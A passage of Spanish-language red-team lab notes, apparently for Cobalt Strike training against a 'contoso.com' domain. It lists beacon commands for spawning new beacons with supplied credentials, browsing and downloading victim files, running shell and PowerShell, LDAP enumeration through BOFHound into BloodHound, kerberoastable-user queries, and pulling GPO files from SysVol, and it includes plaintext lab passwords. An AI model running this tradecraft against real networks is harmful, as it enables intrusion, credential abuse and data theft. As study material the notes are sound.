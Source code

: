 
- No recomendable sleep 0(se buguea mucho), entre 2 y 5.
## 🧩 Comando: `spawn` y `spawnas`
> **Crea un nuevo Beacon** desde el actual, usando el mismo usuario o uno nuevo(spawnas).  
> El nuevo proceso recibe el shellcode del listener que indiquemos.
> Debes estar en una **ruta accesible para el nuevo usuario**, o el comando fallará

```powershell
#SPAWN
beacon> spawn [x86|x64] [listener]
#Ejemplo:
beacon> spawn x64 http

#SPAWNAS
beacon> spawnas [DOMINIO\usuario] [contraseña] [listener]
#Ejemplo:
beacon> cd C:\
beacon> spawnas CONTOSO\rsteel Passw0rd! http
```


- Saber informacion del dominio
```powershell
ldapsearch -x -H ldap://10.10.121.107 -b "DC=contoso,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=8192)" dNSHostName
```


## 🧩 Interactuando con el sistema

*file_browser*
> Ver explorador de archivos como si tuvieses rdp

```powershell
beacon> file_browser
```

*download*
> Descargar archivos del beacon
> Los puedes ver en el beacon, View > Downloads > Sync Fyles

```powershell
beacon> download C:\Users\pchilds\Desktop\desktop.ini
```

*process_browser*
> Ver procesos del sistema como **ps** visualmente como *administrador de tareas*

```powershell
beacon> process_browser
```

*VNC*
> Si queremos interactuar como un RDP

```powershell
breacon> desktop high
```

*Shell / Run / Powershell*
> Run: Comandos de Windows nativos
> Shell: Comandos de Linux nativos
> Powershell: Comandos de Powershell nativos

```powershell
beacon> run klist

beacon> shell ls

beacon> powershell $env:computername
```


## **Enumeración**

**BOFHound no enumera nada por sí solo**. Lo que hace es **parsear y convertir en JSON** toda la información que **tú previamente has sacado con `ldapsearch`**. Primero lanzas ldapsearch y luego bofhound.

### 🔎  Enumerar todos los usuarios

```powershell
beacon> ldapsearch (samAccountType=805306368)
```
###  Consultar -> Dominios, Ous, GPOs , Usuarios y Grupos

```powershell
beacon> ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor


beacon> ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```


1. **BOFHound no hace estas consultas, solo interpreta sus resultados.**
	- Debes copiar los logs generados por `ldapsearch` desde el team server:
```bash
cd /mnt/c/Users/Attacker/Desktop

scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .

Passw0rd!
```

2. **Ejecutas BOFHound contra los logs**:
```bash
bofhound -i logs/
```
3. Arrancas los docker y vas:
```powershell
http://localhost:8080/ui/login

admin : eA%N4frBrnn2.
```

4. **Importas esos JSON a BloodHound** (`Administration > File Ingest`)
```bash
#Una vez se suba en explore cypher
Match (n:GPO) return n

#Kerberoasteables
MATCH (n:User) WHERE n.hasspn=true RETURN n

```

- ¿Veo SID sin nombre?
```powershell
ldapsearch (objectsid=S-1-5-21-XXXXX-XXXXX-XXXXX-YYYY) --attributes *,ntsecuritydescriptor


#Vuelves a lanzar los logs
bofhound -i logs/
```


## Ejemplo

```bash
#Clicas en Workstation ADMINS

guardas los Object is de cada PC

id wks 2 -> S-1-5-21-3926355307-1661546229-813047887-2102

id wks 1 -> S-1-5-21-3926355307-1661546229-813047887-2101
```

- En el beacon:
```powershell
ls \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\

download \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

- Guardas su sid y lo añades a BofHound
```bash
SID ADMIN -> S-1-5-21-3926355307-1661546229-813047887-1106

#Añadirlos:
MATCH (x:Computer{objectid:'S-1-5-21-3926355307-1661546229-813047887-2101'})
MATCH (y:Group{objectid:'S-1-5-21-3926355307-1661546229-813047887-1106'})
MERGE (y)-[:AdminTo]->(x)


MATCH (x:Computer{objectid:'S-1-5-21-3926355307-1661546229-813047887-2102'})
MATCH (y:Group{objectid:'S-1-5-21-3926355307-1661546229-813047887-1106'})
MERGE (y)-[:AdminTo]->(x)
```
